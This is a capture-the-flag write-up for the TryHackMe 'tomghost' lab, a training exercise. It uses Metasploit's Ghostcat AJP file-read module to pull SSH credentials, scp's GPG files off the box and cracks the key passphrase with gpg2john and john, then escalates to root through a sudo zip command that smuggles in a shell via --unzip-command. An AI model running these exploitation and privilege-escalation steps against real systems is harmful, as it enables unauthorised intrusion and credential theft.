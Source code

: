 ## Title: tomghost
### https://tryhackme.com/room/tomghost
### IP: 10.10.50.24

#### Answer the questions below:

#### Compromise this machine and obtain user.txt
Answer format: ***{********************************}

#### Escalate privileges and obtain root.txt
Answer format: ***{********************************}

#### Nmap:

22: SSH

53: tcpwrapped

8009: ajp13 - Apache Jserv

8080: http - Apache Tomcat 9.0.30

Navigating to 10.10.50:8080 is just the default Apache Tomcat page.

#### Using dirb to recursively scan and locate any interesting directories or files:

dirb http://10.10.50.24 -R

#### Found directories:

http://10.10.50.24:8080/docs

http://10.10.50.24:8080/examples

http://10.10.50.24:8080/host-manager

http://10.10.50.24:8080/manager

Nothing too interesting in these.

#### Checking exploitDB for AJP vulns:

#### AJP 'Ghostcat' File Read/Inclusion (Also in Metasploit)

#### Using Metasploit

msfconsole

search AJP

use 0

info

#### Options:

AJP_PORT: 8009

FILENAME: /WEB-INF/web.xml

RHOSTS: 10.10.50.24 (Target host)

RPORT: 8080 (Apache Tomcat webserver port

SSL: false

#### Loot gathered:

skyfuck:8730281lkjlkjdqlksalks

Most likely SSH creds, trying them gets us access to skyfuck@ubuntu

#### Some quick enumeration:

ls: credential.pgp and tryhackme.asc

tryhackme.asc is the private key used to decrypt credential.pgp.

Running sudo -l and we don't have admin.

For now lets look for the user flag.

cd ..

ls: merlin & skyfuck

cd merlin

cat user.txt

#### Back to the other files. Lets copy them across with scp:

scp -p skyfuck@10.10.50.24:/home/skyfuck/tryhackme.asc tryhackme.asc

scp -p skyfuck@10.10.50.24:/home/skyfuck/credential.pgp credential.pgp

#### Using gpg2john we can turn the .asc file into a hash that john can attempt to crack:

gpg2john tryhackme.asc > tryhackme.txt

#### We can then attempt to crack this hash using john with a wordlist such as rockyou:

john -wordlist=/usr/share/wordlists/rockyou.txt.gz tryhackmeHash.txt

#### This gives us the passphrase alexandru, with this we can import the gpg key with:

gpg --import tryhackme.asc

#### And then decrypt the the credential.pgp file which gives us merlin's creds:

marlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j

#### After SSHing in with these creds:

sudo -l: We can see that merlin is able to run /usr/bin/zip as root.

#### After some research I found the following article, showing how to pass commands through Zip:

https://www.hackingarticles.in/linux-for-pentester-zip-privilege-escalation/

#### Using the following commands we can spawn a shell as root:

touch text.txt

sudo zip 1.zip text.txt -T --unzip-command="sh -c /bin/bash"

#### Now we just look for the root flag:

cd root

cat root.txt
